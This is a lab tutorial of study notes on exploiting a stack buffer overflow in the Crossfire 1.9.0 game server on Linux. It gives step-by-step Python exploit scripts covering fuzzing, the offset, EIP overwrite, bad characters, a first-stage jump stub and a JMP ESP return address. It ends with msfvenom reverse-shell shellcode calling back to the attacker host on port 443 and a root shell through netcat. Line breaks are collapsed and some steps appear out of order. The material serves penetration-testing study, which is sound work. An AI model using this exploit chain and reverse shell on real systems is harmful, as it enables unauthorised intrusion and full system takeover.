




Notes - Linux Buffer Overflows
A buffer overflow is a type of software vulnerability that occurs when a program attempts to write more data to a buffer, which is a temporary storage area in a computer's memory, than it can actually hold.This can cause the extra data to overflow into adjacent memory locations, potentially overwriting important data and causing the program to crash or behave in unexpected ways.In some cases, this can even allow an attacker to execute malicious code or take control of the affected system.
Buffer overflows can occur in a variety of programs, including web applications, operating systems, and network services.They are often caused by programming errors such as using unsafe functions, not validating input properly, or not checking the size of input data before writing it to a buffer.
To prevent buffer overflows, developers can use safe programming practices such as bounds checking, input validation, and secure coding practices like using memory-safe languages.Additionally, system administrators can use intrusion detection systems and firewalls to detect and block malicious traffic that attempts to exploit buffer overflow vulnerabilities.
Let's execute the script.
It looks like the fuzzing crashed.
Let's find the offset now!
After executing this script, we can see in edb that the EIP register's value changed to 46367046.
Solution for step number three: the offset is at the 4368th byte.
We don't need to issue the chmod command if we just modify a script that is already executable but I will issue the chmod command anyway.
In edb, we can see that - for example - the EBP register's value changed to 41414141 but the EIP register's value is not 41414141 now but 42424242.
42 is hex code for B.
We can also see that there is space for the C characters too.
We have just successfully overwritten the EIP register!
The ADD EAX,12 assembly instruction's opcode equivalent is 83C00C.
The JMP EAX assembly instruction's opcode equivalent is FFE0.
Fortunately for us, this two sets of instructions take up only five bytes of memory.
We can update our script to include this first stage payload and two "\x90" knobs in order to maintain the correct length.
It is the ESP register's value that we have to follow in dump to find bad characters.
In edb, right click on the ESP register's value and select "Follow in Dump".
In case we can only examine the shellcode's space, after executing (and modifing appropriately) the script multiple times can we see an anomaly in the Hex dump view, which means the \x00 character is not the only one bad character.
We can see that the \x20 is a bad character too.
We do not see any anomaly after that.
We have successfully found all bad characters.
Let's see an example of another application's hex dump.

If we see this, the B0 character itself is not a bad character.
Furthermore, if we see B0 characters next to each other, only the first one from the left marks the place of a bad character.
On the picture, the places where the bad characters can be found are marked with a red quadrilateral.
If we done everything right, the debugger stopped at the JMP ESP instruction, and the appliation wait's for further commands.
Restart and re-attach.
Done. Let's try getting a shell.
edb is not necessary, but Crossfire must be running.
If we would re-attach the Crossfire application to edb, the debugger would catch SIGCHLD events, causing the application to pause whenever a command has been executed through our reverse shell.
On another tab on the Kali machine:
Looking back to the tab with netcat running, we see that we got a shell!
~Thank you for reading~
Anatomy of the Memory
A typical computer's processor with Intel x86 architecture has a memory anatomy which looks like the following. The kernel section is located at the top of the memory. The stack section - which is the most interesting for buffer overflows - is located under the kernel section. The heap section is located under the stack section. The data section is located undert the heap section. Finally, the text section is located under the data section. The stack section and the heap section are large compared to the other sections. The heap section - if it is not the same size as the stack section - is the largest.Anatomy of the Stack
A typical computer's processor with Intel x86 architecture has a stack anatomy which looks like the following. The ESP (Extended Stack Pointer) register is located at the top of the stack. Under ESP is the Buffer Space where we can store our input. Finally there is the EBP (Extended Base Pointer) register which is at the bottom of the stack, under the EBP register. Reaching the end of the stack there is the EIP (Extendid Instruction Pointer) register. Controlling the EIP register by being able the write to it can lead to buffer overflow vulnerability if the place for the shellcode is/can be large enough.Steps of Buffer Overflow
1. SpikingSearching for a vulnerable partof the program2. Fuzzing
We send a bunch of characters forthe program and seeif we can crash it3. Finding the Offset
If we can crash it, we search forat what point we can crash it(this point is called the offset)4. Overwriting EIP
We utilize the Offsetto overwrite the EIP5. Finding Bad Characters 6. Finding the Right Module 7. Generating Shellcode 8. Root!
1. Spiking
In this entry, the environment where we test looks like the following. We have an attacker machine running Kali Linux (the tools to be utilized are found on Parrot OS too) and a machine running the most recent version of Debian Linux with 64 bit architecture. The Kali Linux has an IP address of 10.11.0.6 and the Debian machine has an IP address of 10.11.0.128, both machines are on the 10.11.0.0/24 subnet, and can communicate with each other. For the purpose of this entry, the Debian machine runs Crossfire, a linux based role playing game. Specifically, Crossfire 1.9.0 is vulnerable to a network based buffer overflow when passing a string of more than 4000 bytes to the setup sound command. The Debian machine also has edb downloaded. Unfortunately, antivirus solutions do not pick up crossfire at the time of this writing. Let's assume that antivirus solutions are turned off on the Debian machine. The Crossfire application has been compiled without any memory protection mechanism. First things first, we start the Crossfire application with administrative privileges. We do the same with edb. In edb, we click File --> Attach and search for the vulnserver process. We click on the vulnserver process and click on the Attach button. If something has been attached to edb, it gets paused. The run it, we do not need to search for the Run button. It could be more convenient to press F9 and it will resume the application from the Paused state. The Crossfire application listens on port 13327 by default. We skip the spiking step because we already know that the Crossfire application's vulnerable input field is the field after the setup sound command.2. Fuzzing
We can crash the application and we know what input field we can utilize to achive the crash of the application. Let's determine the place in memory where the crash happens. We can do it easily with a script. We can copy and modify a script from the public exploit instead of writing the exploit from scratch. Let's make and execute the script now!
# gedit 1.py
#!/usr/bin/pythonimport sockethost = "10.11.0.128"buffer = "A" * 100crash = "\x41" * 4379buffer = "\x11(setup sound " + crash + "\x90\x00#"s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)print("[*]Sending evil buffer...")s.connect((host, 13327))print(s.recv(1024))s.send(buffer)s.close()print("[*]Payload Sent !")
# chmod +x 1.py
# ./1.py3. Finding the Offset
ceil(4000) = ? = 5000, but the public exploit utilizes the 4379 multiplier with a bunch of A characters, so we can work with that.
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379Aa0[...]*copy*
# gedit 2.py
#!/usr/bin/pythonimport sockethost = "10.11.0.128"pattern = "Aa0[...]"buffer = "\x11(setup sound " + pattern + "\x90\x00#"s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)print("[*]Sending evil buffer...")s.connect((host, 13327))print(s.recv(1024))s.send(buffer)s.close()print("[*]Payload Sent !")
# gedit 2.py
# ./2.py
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046[*] Exact match at offset 43684. Overwriting the EIP
# gedit 2.py
#!/usr/bin/pythonimport sockethost = "10.11.0.128"crash = "\x41" * 4368 + "B" * 4 + "C" * 7buffer = "\x11(setup sound " + crash + "\x90\x00#"s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)print("[*]Sending evil buffer...")s.connect((host, 13327))print(s.recv(1024))s.send(buffer)s.close()print("[*]Payload Sent !")
# chmod +x 2.py
# ./2.py5. Finding Bad Characters
When we generate/write shellcode, we must know what characters are good for the shellcode and what characters are not good for the shellcode. To find bad characters, we can run all the hex characters through the application and see if any of then act up. By default, the null byte (/x00) character acts up, so we don't worry about it and remember that the /x00 is a bad character. Before we can find more bad characters, it is advisable to find space for our shellcode.5.1. Locating Space For Our Shellcode
The EAX register seems to point to the beginning of our buffer, including the "setup sound" string. The fact that EAX points directly to the beginning of the command string may impact our ability to simply jump to the buffer pointed at by EAX as we would be executing the hex opcode's equivalent of the ASCII string "setup sound" before our shellcode.This would most likely mangle the execution path and cause our exploit to fail......or, would it? Further examination of the actual opcode (copy the EAX register's value, press Ctrl+G and paste the value in 0x01234567 format) generated by the setup sound string reveals some interesting instructions.  The opcode instructions translate to conditional jumps. All this jumps seem to be leading into our controlled buffer, so a jump to EAX may actually work for us in this case... ...however, this is NOT an elegant solution, so let's try harder! Continuing our analysis, it looks like the ESP register points towards the end of our unique buffer at the time of the crash but it only gives a few bytes of shellcode to work with. Right click on the ESP register's value and click "Follow in Dump".  We can try to insert a first stage shellcode into that limited space. Rather than an actual payload such as a reverse shell, this first stage payload will be used to align the EAX register in order to make it point to our buffer right after the setup sound string and then jump to that location, allowing us to skip the conditional jumps. In order to achieve this, our first stage shellcode would need to increase the value of EAX by twelve bytes as there are twelve characters in the string "setup sound". We can accomplish this with an ADD assembly instruction and then using a JMP assembly instruction to jump to the memory pointed by EAX.
# locate nasm_shell[...]/usr/[...]/nasm_shell.rb
# /usr/[...]/nasm_shell.rb
nasm> ADD EAX,1200000000 83C00C add eax,byte +0xcnasm> JMP EAX00000000 FFE0 jmp eax
nasm> exit
# gedit 2.py
#!/usr/bin/pythonimport sockethost = "10.11.0.128"first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"crash = "\x41" * 4368 + "\x42" * 4 + first_stagebuffer = "\x11(setup sound " + crash + "\x90\x00#"s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)print("[*]Sending evil buffer...")s.connect((host, 13327))print(s.recv(1024))s.send(buffer)s.close()print("[*]Payload Sent !")5.2. Actually Finding Bad Characters
Let's go to https://github.com/cytopia/badchars page and copy the badchars = ( "\x01\[...]") stuff under Python.
# gedit 2.py
#!/usr/bin/pythonimport socketbadchars = ("\x01\[...]")host = "10.11.0.128"crash = "\x41" * 4368 + "B" * 4 + badcharsbuffer = "\x11(setup sound " + crash + "\x90\x00#"s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)print("[*]Sending evil buffer...")s.connect((host, 13327))print(s.recv(1024))s.send(buffer)s.close()print("[*]Payload Sent !")
# chmod +x 2.py
# ./2.py6. Finding the Right Module
A right module is a DLL or something similar that does not have memory protection (such as DEP, ASLR, SSDH, etc.). Do you remember that the application was compiled without memory protections? The right module in this case will be the application itself as it was compiled without any memory protections. Before generating the shellcode, it is advisable to achieve an overflow, where the program "fills up", waiting for further instructions. Let's do try to achieve this now! We can do this by finding a return address by finding a valid assembly intruction to redirect code execution to the memory location pointed to by the ESP register. In edb, click Plugins --> OpcodeSearcher --> Opcode Search. Using this plugin, we can easily search for a JMP ESP assembly instruction or equivalent in the memory region where the code section of the Crossfire application is mapped.  We choose to proceed with the first JMP ESP assembly instruction found by the debugger. We copy this instruction's address value, but we only need it's 0x12345678 format. We are getting closer so let's restart everything before we continue. Before we modify our script, let's set a breakpoint on the JMP ESP return address. We can do this with the edb BreakpointManager plugin. In edb, click Plugins --> BreakpointManager --> Breakpoints. We click on the Add Breakpoint button and paste the address value on the popup window's input field. This address will be 0x08134596. We click on the OK button, then on the Close button. Then we let the application run and return to Kali.
# gedit 2.py
#!/usr/bin/pythonimport sockethost = "10.11.0.128"padding = "\x41" * 4368eip = "\x96\x45\x13\x08" # because of little endianness, we write this value in reverse orderfirst_stage = "\x83\xc0\x0c\xff\xe0\x90"buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)print("[*]Sending evil buffer...")s.connect((host, 13327))print(s.recv(1024))s.send(buffer)s.close()print("[*]Payload Sent !")
# chmod +x 2.py
# ./2.py7. Generating Shellcode
The shellcode must contain a non-staged payload as we are goind to utilize it while listening with netcat. The netcat tool can only listen to non-staged payloads, it is essentially deef when it comes to staged payloads as it can only hear the stages separate to each other. Let's generate a non-staged payload with msfvenom. Note that we do not need to set the EXITFUNC to thread in this case, but it doesn't hurt to try. The -f is the file type switch, the -a is the architecture switch, the -b is the bad characters switch.
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py -v shellcode[...]Payload size: 95 bytes[...]"shellcode = ""[...]\x36" *copy*
# gedit 2.py
#!/usr/bin/pythonimport sockethost = "10.11.0.128"nop_sled = "\x90" * 8 # NOP sled knobsshellcode = ""shellcode += "\xbe\x35\x9e\xa3\x7d\xd9\xe8\xd9\x74\x24\xf4\x5a\x29"[...]shellcode += "\x7f\x6d\x02\x36"padding = "\x41" * (4368 - len(nop_sled) - len(shellcode))eip = "\x96\x45\x13\x08" # 0x08134596first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"buffer = "\x11(setup sound " + nop_sled + shellcode + padding + eip + first_stage +"\x90\x00#s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)print("[*]Sending evil buffer...")s.connect((host, 13327))print(s.recv(1024))s.send(buffer)s.close()print("[*]Payload Sent !")8. Root!
# nc -lvnp 443
# chmod +x 2.py
# .2.py
# nc -lvnp 443whoamiroot